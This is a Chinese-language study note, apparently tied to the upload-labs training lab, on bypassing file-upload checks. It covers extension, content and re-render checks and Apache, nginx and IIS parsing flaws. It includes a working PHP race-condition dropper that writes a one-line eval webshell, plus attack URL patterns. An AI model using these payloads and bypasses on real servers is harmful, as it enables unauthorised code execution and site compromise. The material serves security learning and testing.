


## 总体情况





## 判断上传漏洞类型





## 上传绕过方法


### 前端JS校验


1.禁用js
2.修改js代码中禁止上传的白名单或黑名单
3.抓包改包


### 服务端检查文件名后缀


1.黑名单：
- 上传服务器可解析的其它格式后缀，例如php3,phtml,asa,cer等
- 修改后缀为大写，或者大小写混合
- 后缀名后面加点或者空格
- 后缀名后面加`::$DATA`
- _`.php. .`_ _(点+空格+点)
- 双写后缀名绕过：当服务器利用函数（如strireplace函数）将敏感的后缀名替换为空时，双写后缀名，如_`.pphphp`即可绕过
- 上传.7z压缩包绕过：.7z是一种压缩包文件的格式，我们上传cmd.php.7z文件，再访问该文件时能够正常访问到php页面，这属于Apache解析漏洞，Apache解析文件              时，如果后缀名不认识，则会继续想前解析，会解析到php,这就是Apache的解析漏洞
- 上传图片🐎配合文件包含利用`.htaccess`文件：内容为`SetHandler application/x-httpd-php`，上传的所有文件都会被当做php文件进行解析，前提是需要服务器相关配置开启


2.白名单：
- 上传图片🐎配合文件包含利用
- 0x00截断：原理同%00截断，只不过是通过POST方式传递参数，需要通过Burp在十六进制形式中修改
- 利用%00截断move_uploaded_file函数，只解析%00前的字符，%00后的字符不解析，通常运用在GET方式，因为GET方式传入能自动进行URL解码


### 服务端检查文件内容


1.修文件为图片头标识绕过


```json
`shell
JPEG/JPG: FF D8
PNG: 89 50
GIF: 47 49`


```


2.上传图片🐎配合文件包含


### 服务器端检查文件内容后重新渲染


参考：https://xz.aliyun.com/t/2657


POC地址：[POC](https://github.com/storysec/SecurityStudy/tree/master/upload-labs-pass-16)


### 服务器端会将文件重命名或者重新移动


代码中先上传再进行验证，发现不合格的文件，客户端返回报错之后，再进行删除。很容易想到条件竞争的利用。
使用如下的hack.php


```php
_<?php fputs(fopen("./shell.php", "w"), '<?php @eval($POST["x"]) ?>'); ?>_

```


上传hack.php，发现不合格的文件就会被unlink函数删除掉，但在多线程并发的情况下：即多次上传hack.php的同时，多次访问hack.php，就会出现hack.php成功访问执行的情况，即成功写入一句话木马。


上传后再通过rename函数重命名。我们可以观察这关的白名单中存在压缩包的后缀名


```php
var $cls_arr__extaccepted = array(
      ".doc", ".xls", ".txt", ".pdf", ".gif", ".jpg", ".zip", ".rar", ".7z",".ppt",
      ".html", ".xml", ".tiff", ".jpeg", ".png" );_

```


我们可以利用条件竞争，通过多线程发送上传后缀名为.php.7z的文件的包，当服务器还未来得及将文件改名时访问上传的webshell


### 逻辑漏洞绕过


参考uploads-lab  pass-20


### 中间件解析漏洞


1.Apache
- 遇到不认识的后缀名会向前解析


2.nginx


```json
_Nginx默认是以CGI的方式支持PHP解析的，普遍的做法是在Nginx配置文件中通过正则匹配设置 SCRIPTFILENAME。当访问 www.xx.com/phpinfo.jpg/1.php这个URL时，
$fastcgi__script__name会被设置为 “phpinfo.jpg/1.php”，然后构造成 SCRIPTFILENAME传递给PHP CGI，但是PHP为什么会接受这样的参数，并将phpinfo.jpg作为PHP文件解析呢?

这就要说到fixpathinfo这个选项了。如果开启了这个选项，那么就会触发在PHP中的如下逻辑：

PHP会认为SCRIPTFILENAME是phpinfo.jpg，而1.php是PATHINFO，所以就会将phpinfo.jpg作为PHP文件来解析了_

**漏洞形式**：

```


```php
    www.xxxx.com/UploadFiles/image/1.jpg/1.php

    www.xxxx.com/UploadFiles/image/1.jpg %00.php

    www.xxxx.com/UploadFiles/image/1.jpg/%20\0.php

```


3.IIS

- _IIS7.5的漏洞与nginx的类似，都是由于php配置文件中，开启了 cgi.fixpathinfo，而这并不是nginx或者iis7.5本身的漏洞。_
- 使用iis5.x-6.x版本的服务器，大多为windows server 2003，网站比较古老，开发语句一般为asp；该解析漏洞也只能解析asp文件，而不能解析aspx文件。目录解析(6.0)

形式：www.xxx.com/xx.asp/xx.jpg 原理: 服务器默认会把.asp，.asp目录下的文件都解析成asp文件。


形式：www.xxx.com/xx.asp;.jpg 原理：服务器默认不解析;号后面的内容，因此xx.asp;.jpg便被解析成asp文件了。 解析文件类型


IIS6.0 默认的可执行文件除了asp还包含这三种 : asa, cer, cdx


## 参考

- [https://foxgrin.github.io/posts/49857/](https://foxgrin.github.io/posts/49857/)
- [https://github.com/storysec/SecurityStudy/tree/master/upload-labs-pass-16](https://github.com/storysec/SecurityStudy/tree/master/upload-labs-pass-16)
- [http://www.storysec.com/upload-labs.html#h2-6](http://www.storysec.com/upload-labs.html#h2-6)
- https://paper.seebug.org/560/
